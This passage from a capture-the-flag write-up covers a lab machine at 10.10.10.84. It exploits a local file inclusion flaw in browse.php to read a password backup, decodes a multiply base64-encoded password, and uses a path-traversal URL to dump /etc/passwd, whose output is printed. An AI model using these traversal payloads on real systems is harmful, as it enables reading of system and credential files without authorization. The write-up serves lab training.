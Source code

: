 It’s also good to note that the URL for this webpage is `http://10.10.10.84/browse.php?file=listfiles.php` which suggests that there might be a LFI vulnerability.



# Exploit

## Method 1 - LFI

From the list of files, the most interesting file would be `pwdbackup.txt`, so lets try to view it using LFI - `http://10.10.10.84/browse.php?file=pwdbackup.txt`!

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo= 
```

On first glance, the ciphertext looks like a base64 encoding.

Placing the ciphertext into [CyberChef](https://gchq.github.io/CyberChef/#recipe=Remove_whitespace(true,true,true,true,true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UTJoaGNtbDRJVElqTkNVMkpqZ29NQT09Cg) and decoding it multiple times, we finally reach a readable plaintext `Charix!2#4%6&8(0`.

The decoded plaintext looks like a password to a user so I guess now we have to find the corresponding username!

The first thing that came to mind was to find the `/etc/passwd` file using LFI again - `http://10.10.10.84/browse.php?file=../../../../../etc/passwd`.

```bash
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $ # root:*:0:0:Charlie &:/root:/bin/csh toor:*:0:0:Bourne-again Superuser:/root: daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin operator:*:2:5:System &:/:/usr/sbin/nologin bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin news:*:8:8:News Subsystem:/:/usr/sbin/nologin man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin _ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin charix:*:1001:1001:charix:/home/charix:/bin/csh 
```
